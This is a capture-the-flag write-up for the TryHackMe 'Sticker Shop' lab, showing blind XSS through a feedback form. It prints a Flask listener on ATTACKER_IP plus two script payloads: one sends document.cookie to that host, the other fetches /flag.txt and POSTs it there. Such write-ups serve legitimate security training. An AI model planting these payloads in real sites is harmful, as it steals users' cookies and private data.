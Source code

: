 ```yaml
---
layout: default
title: The Sticker Shop THM - Write up
theme: hacker
---
```


# The Sticker Shop THM - Write up (Easy)

## Description
Can you read the flag at http://10.10.102.26:8080/flag.txt?

## Accessing http://10.10.102.26:8080
There is home page and one feedback page.
![image](https://github.com/user-attachments/assets/b9cfa04d-081c-4b59-8fef-717107a3bba8)

most likely we have to put our payload on the feedback page.

## Trying to access http://10.10.102.26:8080/flag.txt
![flag.txt](https://github.com/user-attachments/assets/9d160fb6-df50-41bd-8cc2-adebbaf590d0)

it returns "401 Unauthorized".

## Trying XSS
Common Reflected XSS playloads didnt work for me in the feedback page. so I accessed the hint which says "Can you conduct any client-side exploitation in order to read the flag?". 
I became certain that there is XSS in the page. I tried for blind XSS.

### Creating a server
I Created a simple server using flask.
![image](https://github.com/user-attachments/assets/b51c2017-5a94-424b-be59-5e132a634a54)

Code: 
```
from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=['POST'])
def capture_flag():
    data = request.data.decode('utf-8')
    print(f"Received data: {data}")
    return 'Data received!', 200

if __name__ == '__main__':
    app.run(host='ATTACKER_IP', port=8000)
```
### Running the server
![image](https://github.com/user-attachments/assets/84e46136-cae4-4683-91e4-4078c506cb07)

### Putting the payload
![image](https://github.com/user-attachments/assets/c841d029-aa28-4c46-84fc-7a22251ead9a)

payload:
```
<script>document.location='http://ATTACKER_IP:8000/xss?cookie=' + document.cookie</script>
```
Enter the payload and click submit.

### Output
![image](https://github.com/user-attachments/assets/f1780783-0d26-4fbb-8d0e-ae540c56086f)
The paylaod works, the website doesnt use cookies so theres no cookie showing.

## Getting the flag

### Putting the payload
![image](https://github.com/user-attachments/assets/051da70d-5c1a-4434-bc7e-46843c5c6e6c)

payload for the flag:
```
<script>
    fetch('/flag.txt')
        .then(res => res.text())
        .then(flag => fetch('http://ATTACKER_IP:8000', {method: 'POST', body: flag}));
</script>
```
click submit.

### output
![image](https://github.com/user-attachments/assets/43386fd9-82d9-4abf-8e81-105357d232e9)

got the flag.









